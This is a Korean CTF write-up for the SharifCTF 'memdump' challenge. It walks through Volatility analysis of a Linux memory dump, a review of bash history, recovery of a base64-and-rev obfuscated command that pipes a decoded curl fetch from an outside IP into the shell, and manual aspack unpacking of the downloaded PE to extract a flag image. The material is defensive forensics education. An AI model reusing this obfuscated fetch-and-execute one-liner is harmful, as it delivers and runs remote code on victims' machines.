










=====================================================================
[sharif] memdump
=====================================================================

메모리 덤프 파일 정보 확인
=====================================================================

메모리 덤프 s파일의 정보를 확인합니다.

리눅스 메모리 덤프의 경우 volatility의 imageinfo로 확인을 하게 되면 시간도 오래걸리고, 만약 profile에 해당 이미자가 없을 수 있기 때문에 다음 명령으로 확인을 합니다.

.. code-block:: console

    $ strings memdump2 | egrep '^Linux.*[0-9.]{3,}.*SMP'
 
    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

|

프로세스 정보 확인
=====================================================================

위에서 나온 프로파일이 윈도우이므로, pslist로 프로세스 정보에 대해 확인합니다.

.. code-block:: console

    $ python vol.py linux_psaux --profile=LinuxUbuntu1404x64 -f memdump2
    
    Volatility Foundation Volatility Framework 2.5
    Pid    Uid    Gid    Arguments
    1      0      0      /sbin/init
    2      0      0      [kthreadd]
    3      0      0      [ksoftirqd/0]
    5      0      0      [kworker/0:0H]
    6      0      0      [kworker/u2:0]
    7      0      0      [rcu_sched]
    8      0      0      [rcuos/0]
    9      0      0      [rcu_bh]
    10     0      0      [rcuob/0]
    11     0      0      [migration/0]
    12     0      0      [watchdog/0]
    13     0      0      [khelper]
    14     0      0      [kdevtmpfs]
    15     0      0      [netns]
    16     0      0      [khungtaskd]
    17     0      0      [writeback]
    18     0      0      [ksmd]
    19     0      0      [crypto]
    20     0      0      [kintegrityd]
    21     0      0      [bioset]
    22     0      0      [kblockd]
    23     0      0      [ata_sff]
    24     0      0      [khubd]
    25     0      0      [md]
    26     0      0      [devfreq_wq]
    27     0      0      [kworker/u2:1]
    28     0      0      [kworker/0:1]
    29     0      0      [kswapd0]
    30     0      0      [fsnotify_mark]
    31     0      0      [ecryptfs-kthrea]
    43     0      0      [kthrotld]
    44     0      0      [acpi_thermal_pm]
    45     0      0      [scsi_eh_0]
    46     0      0      [scsi_tmf_0]
    47     0      0      [scsi_eh_1]
    48     0      0      [scsi_tmf_1]
    50     0      0      [ipv6_addrconf]
    70     0      0      [deferwq]
    71     0      0      [charger_manager]
    117    0      0      [kpsmoused]
    118    0      0      [kworker/0:2]
    119    0      0      [scsi_eh_2]
    120    0      0      [scsi_tmf_2]
    121    0      0      [kworker/0:1H]
    131    0      0      [jbd2/sda1-8]
    132    0      0      [ext4-rsv-conver]
    264    0      0      upstart-udev-bridge --daemon
    270    0      0      /lib/systemd/systemd-udevd --daemon
    391    0      0      upstart-file-bridge --daemon
    394    102    106    dbus-daemon --system --fork
    396    101    104    rsyslogd
    422    0      0      /lib/systemd/systemd-logind
    462    0      0      upstart-socket-bridge --daemon
    540    0      0      dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
    680    0      0      /sbin/getty -8 38400 tty4
    683    0      0      /sbin/getty -8 38400 tty5
    690    0      0      /sbin/getty -8 38400 tty2
    691    0      0      /sbin/getty -8 38400 tty3
    693    0      0      /sbin/getty -8 38400 tty6
    710    0      0      acpid -c /etc/acpi/events -s /var/run/acpid.socket
    725    0      0      /usr/sbin/sshd -D
    773    0      0      atd
    774    0      0      cron
    900    0      0      [kauditd]
    1047   0      0      /sbin/getty -8 38400 tty1
    1093   0      0      sshd: user [priv]
    1135   1000   1000   sshd: user@pts/0
    1136   1000   1000   -bash
    1166   0      0      [kworker/u2:2]

|

bash shell 확인
=====================================================================

실행한 bash 정보를 확인합니다. 뭔가 냄새가 나는 것들이 존재합니다.

.. code-block:: console

    $ python vol.py linux_bash --profile=LinuxUbuntu1404x64 -f memdump2

    Volatility Foundation Volatility Framework 2.5
    Pid      Name                 Command Time                   Command
    -------- -------------------- ------------------------------ -------
    1136 bash                 2016-02-03 11:31:37 UTC+0000   netstat -natp
    1136 bash                 2016-02-03 11:32:21 UTC+0000   history
    1136 bash                 2016-02-03 11:32:28 UTC+0000   startx
    1136 bash                 2016-02-03 11:32:35 UTC+0000   history
    1136 bash                 2016-02-03 11:32:55 UTC+0000   passwd
    1136 bash                 2016-02-03 11:33:31 UTC+0000   ifconfig
    1136 bash                 2016-02-03 11:33:37 UTC+0000   curl ctf.sharif.edu
    1136 bash                 2016-02-03 11:33:43 UTC+0000   curl ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:33:49 UTC+0000   curl -s paste.debian.net/plain/343376 | cut -d "_not"
    1136 bash                 2016-02-03 11:34:11 UTC+0000   curl -s paste.debian.net/plain/343376 | tr -d "_not"
    1136 bash                 2016-02-03 11:34:51 UTC+0000   curl -s paste.debian.net/plain/343376 | base64 | rev
    1136 bash                 2016-02-03 11:34:58 UTC+0000   top
    1136 bash                 2016-02-03 11:35:04 UTC+0000   history
    1136 bash                 2016-02-03 11:35:09 UTC+0000   curl -s ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:35:15 UTC+0000   curl -s ctf.sharif.edu | grep till | sed -e 's/20:00/30:00/g'
    1136 bash                 2016-02-03 11:35:22 UTC+0000   
    1136 bash                 2016-02-03 11:35:29 UTC+0000   echo blahblah
    1136 bash                 2016-02-03 11:35:35 UTC+0000   curl -I ctf.sharif.edu
    1136 bash                 2016-02-03 11:35:42 UTC+0000   curl -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:48 UTC+0000   curl -s -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:53 UTC+0000   curl ctftime.org
    1136 bash                 2016-02-03 11:36:05 UTC+0000   curl https://ctftime.org
    1136 bash                 2016-02-03 11:36:11 UTC+0000   curl https://ctftime.org/upcoming | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:17 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:23 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i flag
    1136 bash                 2016-02-03 11:36:35 UTC+0000   echo "woow :) :)"
    1136 bash                 2016-02-03 11:36:41 UTC+0000   watch curl -s "https://ctftime.org/Upcoming | grep -i flag"
    1136 bash                 2016-02-03 11:37:00 UTC+0000   history
    1136 bash                 2016-02-03 11:37:05 UTC+0000   ping google.com
    1136 bash                 2016-02-03 11:37:13 UTC+0000   ps aux
    1136 bash                 2016-02-03 11:37:19 UTC+0000   nslookup ctf.sharif.edu
    1136 bash                 2016-02-03 11:37:24 UTC+0000   ls -ah
    1136 bash                 2016-02-03 11:37:29 UTC+0000   ls -la
    1136 bash                 2016-02-03 11:37:33 UTC+0000   uptime
    1136 bash                 2016-02-03 11:37:40 UTC+0000   clear

실행을 통해 확인 작업에 들어갑니다.

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376

    hi all, Where is flag? this is not flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{this_is_not_flag_g0_away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376 | tr -d "_not"
    
    hi all, Where is flag? his is  flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{hisisflagg0away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 이리로 오면 안되는 거 였습니다. 잘못된 접근 ㅎㅎ

|

덤프 파일 분석
=====================================================================

bash pid로 메모리 덤프를 떠서 확인을 해봐야겠습니다.

.. code-block:: console

    $ python vol.py linux_dump_map -p 1136 --profile=LinuxUbuntu1404x64 -f memdump2 -D output

    Volatility Foundation Volatility Framework 2.5
    Task       VM Start           VM End                         Length Path
    ---------- ------------------ ------------------ ------------------ ----
    1136 0x0000000000400000 0x00000000004ef000            0xef000 output/task.1136.0x400000.vma
    1136 0x00000000006ef000 0x00000000006f0000             0x1000 output/task.1136.0x6ef000.vma
    1136 0x00000000006f0000 0x00000000006f9000             0x9000 output/task.1136.0x6f0000.vma
    1136 0x00000000006f9000 0x00000000006ff000             0x6000 output/task.1136.0x6f9000.vma
    1136 0x000000000141c000 0x00000000015a8000           0x18c000 output/task.1136.0x141c000.vma
    1136 0x00007f6a8d701000 0x00007f6a8d70c000             0xb000 output/task.1136.0x7f6a8d701000.vma
    1136 0x00007f6a8d70c000 0x00007f6a8d90b000           0x1ff000 output/task.1136.0x7f6a8d70c000.vma
    1136 0x00007f6a8d90b000 0x00007f6a8d90c000             0x1000 output/task.1136.0x7f6a8d90b000.vma
    1136 0x00007f6a8d90c000 0x00007f6a8d90d000             0x1000 output/task.1136.0x7f6a8d90c000.vma
    1136 0x00007f6a8d90d000 0x00007f6a8d918000             0xb000 output/task.1136.0x7f6a8d90d000.vma
    1136 0x00007f6a8d918000 0x00007f6a8db17000           0x1ff000 output/task.1136.0x7f6a8d918000.vma
    1136 0x00007f6a8db17000 0x00007f6a8db18000             0x1000 output/task.1136.0x7f6a8db17000.vma
    1136 0x00007f6a8db18000 0x00007f6a8db19000             0x1000 output/task.1136.0x7f6a8db18000.vma
    1136 0x00007f6a8db19000 0x00007f6a8db30000            0x17000 output/task.1136.0x7f6a8db19000.vma
    1136 0x00007f6a8db30000 0x00007f6a8dd2f000           0x1ff000 output/task.1136.0x7f6a8db30000.vma
    1136 0x00007f6a8dd2f000 0x00007f6a8dd30000             0x1000 output/task.1136.0x7f6a8dd2f000.vma
    1136 0x00007f6a8dd30000 0x00007f6a8dd31000             0x1000 output/task.1136.0x7f6a8dd30000.vma
    1136 0x00007f6a8dd31000 0x00007f6a8dd33000             0x2000 output/task.1136.0x7f6a8dd31000.vma
    1136 0x00007f6a8dd33000 0x00007f6a8dd3c000             0x9000 output/task.1136.0x7f6a8dd33000.vma
    1136 0x00007f6a8dd3c000 0x00007f6a8df3b000           0x1ff000 output/task.1136.0x7f6a8dd3c000.vma
    1136 0x00007f6a8df3b000 0x00007f6a8df3c000             0x1000 output/task.1136.0x7f6a8df3b000.vma
    1136 0x00007f6a8df3c000 0x00007f6a8df3d000             0x1000 output/task.1136.0x7f6a8df3c000.vma
    1136 0x00007f6a8df3d000 0x00007f6a8e206000           0x2c9000 output/task.1136.0x7f6a8df3d000.vma
    1136 0x00007f6a8e206000 0x00007f6a8e3c1000           0x1bb000 output/task.1136.0x7f6a8e206000.vma
    1136 0x00007f6a8e3c1000 0x00007f6a8e5c1000           0x200000 output/task.1136.0x7f6a8e3c1000.vma
    1136 0x00007f6a8e5c1000 0x00007f6a8e5c5000             0x4000 output/task.1136.0x7f6a8e5c1000.vma
    1136 0x00007f6a8e5c5000 0x00007f6a8e5c7000             0x2000 output/task.1136.0x7f6a8e5c5000.vma
    1136 0x00007f6a8e5c7000 0x00007f6a8e5cc000             0x5000 output/task.1136.0x7f6a8e5c7000.vma
    1136 0x00007f6a8e5cc000 0x00007f6a8e5cf000             0x3000 output/task.1136.0x7f6a8e5cc000.vma
    1136 0x00007f6a8e5cf000 0x00007f6a8e7ce000           0x1ff000 output/task.1136.0x7f6a8e5cf000.vma
    1136 0x00007f6a8e7ce000 0x00007f6a8e7cf000             0x1000 output/task.1136.0x7f6a8e7ce000.vma
    1136 0x00007f6a8e7cf000 0x00007f6a8e7d0000             0x1000 output/task.1136.0x7f6a8e7cf000.vma
    1136 0x00007f6a8e7d0000 0x00007f6a8e7f5000            0x25000 output/task.1136.0x7f6a8e7d0000.vma
    1136 0x00007f6a8e7f5000 0x00007f6a8e9f4000           0x1ff000 output/task.1136.0x7f6a8e7f5000.vma
    1136 0x00007f6a8e9f4000 0x00007f6a8e9f8000             0x4000 output/task.1136.0x7f6a8e9f4000.vma
    1136 0x00007f6a8e9f8000 0x00007f6a8e9f9000             0x1000 output/task.1136.0x7f6a8e9f8000.vma
    1136 0x00007f6a8e9f9000 0x00007f6a8ea1c000            0x23000 output/task.1136.0x7f6a8e9f9000.vma
    1136 0x00007f6a8ec0a000 0x00007f6a8ec11000             0x7000 output/task.1136.0x7f6a8ec0a000.vma
    1136 0x00007f6a8ec11000 0x00007f6a8ec14000             0x3000 output/task.1136.0x7f6a8ec11000.vma
    1136 0x00007f6a8ec19000 0x00007f6a8ec1b000             0x2000 output/task.1136.0x7f6a8ec19000.vma
    1136 0x00007f6a8ec1b000 0x00007f6a8ec1c000             0x1000 output/task.1136.0x7f6a8ec1b000.vma
    1136 0x00007f6a8ec1c000 0x00007f6a8ec1d000             0x1000 output/task.1136.0x7f6a8ec1c000.vma
    1136 0x00007f6a8ec1d000 0x00007f6a8ec1e000             0x1000 output/task.1136.0x7f6a8ec1d000.vma
    1136 0x00007fff373e1000 0x00007fff37403000            0x22000 output/task.1136.0x7fff373e1000.vma
    1136 0x00007fff37407000 0x00007fff37409000             0x2000 output/task.1136.0x7fff37407000.vma
    1136 0x00007fff37409000 0x00007fff3740b000             0x2000 output/task.1136.0x7fff37409000.vma

grep 명령을 통해 string을 가진 파일을 검색해보았는데 다행히(?) 1개 파일이 매칭 되었습니다.

.. code-block:: console

    $ grep -i 'netstat -natp' output/*
    
    Binary file output/task.1136.0x141c000.vma matches

strings 로 해당 파일을 검색해보니 너무 너무 많이 출력됩니다. ㅠㅠ
솔직히 여기서부터 잘못된 접근인가라는 의심이 시작되었습니다. 다행히 more에서 8페이지 쯤 에 수상한 놈이 보였습니다.

.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |more
     
    e.org/Upcoming | grep -i flag"
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    g' -e 's/|/ /g' | uniq)
    p##*/}
                     printf '%s\n' ${tmp%.mod}
                 }
             done
             }
            ))
    t|m[eo]d|M[EO]D|s[3t]m|S[3T]M|it|IT|xm|XM|iso|ISO)|+([0-9]).@(vdr|VDR))?(.part)'
    ull ))
        "s|.*[[:space:]]\(link/\)\{0,1\}ether[[:space:]]\{1,\}\($re\)[[:space:]]*$|\2|p"
            ))

/tmp/.KvCf56 이라는 파일에 무언가 저장을 하는구나 싶어 grep으로 해당 부분을 잡아보았습니다.

.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |grep '/tmp/.KvCf56'
    
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    t0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'

바로 해당 명령 실행

.. code-block:: console

    $ echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev 
    
    curl -s http://54.183.53.52/jKOpqo

저 url에서 PE파일 하나를 떨구네요. 

실행을 시켜보면 그냥 묵비권만 행사함을 알 수 있습니다. 근데 뭔가 알지도 모른다고 하네요.

IDA를 통해 Segment를 확인해보면 aspack 으로 패킹 되어 있음을 확인할 수 있습니다.

packing이 되어 있기 때문에 아무리 IDA로 정적 분석을 해도 별다른 스트링이 나오지 않음을 알수 있습니다. 왜냐하면 실행 중에 unpack이 되기 때문에 unpack 이후 OEP 에 들어 갓을 때 내용을 확인해야 정상적으로 뜹니다.

그럼 먼저 aspack을 unpack을 해보죠. 프로그램 시작 지점 (start) 부터 시작을 합니다. 근처에 pusha 가 있을겁니다. 언팩을 하기 전의 레지스터 값을 저장하고 언팩이 끝난 다음에 popa를 통해 복구 하기 위함입니다.

따라서 우리는 어셈블리를 쭉 내리면서 popa 만 찾으면 되고, popa 에다가 bp를 걸고 실행 합니다.

이후 몇번 움직이면 EIP가 0x00401040 쪽으로 가게 되는데 이 부분부터가 OEP 입니다.

이때부터 strings나 기타 등등을 살펴 보면 다음과 같이 잘 보임을 알 수 있습니다.

여기서 주목해야 할 세그먼트는 jKOpqo.exe 세그먼트 입니다. 이름이 같은 세그먼트가 2개가 있는데 첫 번째 내용에 MZ 로 시작하여 This program cannot be 어쩌구 있는걸 보니 바이너리 형태로 프로그램이 들어가 있고 

두번째 세그먼트를 보면 FLAG ... IMG ... PNG 어쩌구 되어 있습니다. 음... 두번째 놈을 덤프 떠봅니다 'ㅅ' 세그먼트 헤더에 시작위치와 크기가 정해져 있으니 해당 바이트수 만큼 땝니다.

보면 PNG 해더가 시작하기 때문에 PNG 해더 전을 다 지웁니다.

뒷 부분도 마찬가지로 PNG 의 끝을 가리키는 IEND + 4 바이트 까지 남기고 다 지웁니다.

요놈을

그러면 flag가 포함된 이미지가 출력됩니다.